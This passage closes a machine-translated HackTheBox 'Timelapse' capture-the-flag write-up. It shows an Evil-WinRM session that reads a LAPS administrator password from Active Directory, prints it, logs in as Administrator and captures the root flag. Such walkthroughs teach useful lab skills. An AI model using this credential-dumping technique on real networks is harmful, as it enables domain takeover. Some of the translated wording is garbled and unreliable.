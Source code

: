 # 膝

我花了一段时间环顾四周，没有什么明显的跳出来。回头看看 WinPEAS 的输出，我们发现 LAPS 安装在注册表中。我们还看到，服务台开始时有 LAPS 安装文档和文件。然后这个盒子的名字就有意义了时间流逝！

LAPS 管理本地管理员密码，以设定的频率轮换它。[这个](https://www.recastsoftware.com/resources/overview-of-microsoft-laps-local-administrator-password-solution/)是所有事物圈的向导。我还发现[这个](https://smarthomepursuits.com/export-laps-passwords-powershell/)很有帮助，从那以后我就把广告里的圈数密码给转走了:

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> get-adcomputer -filter * -properties ms-mcs-admpwd | select name,ms-mcs-admpwd

name  ms-mcs-admpwd
----  -------------
DC01  1;s(T[,8/k6k8+n1e8Jh+Q@r
DB01
WEB01
DEV01
```

检查我们在哪个服务器上，我们发现它是 DC01:

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> hostname
dc01
```

# 根标志

我们有本地管理员密码，我们知道我们在与之相关的 DC01 箱上。让我们跳出这个外壳，以管理员身份连接:

```
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u Administrator -p '1;s(T[,8/k6k8+n1e8Jh+Q@r' -S       

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

让我们抓住根旗来完成这个盒子:

```
*Evil-WinRM* PS C:\Users> type trx\desktop\root.txt
3b0e8ff4e0ba0e044abaf52dd07d342d
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 8 月 22 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-timelapse/)*。*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！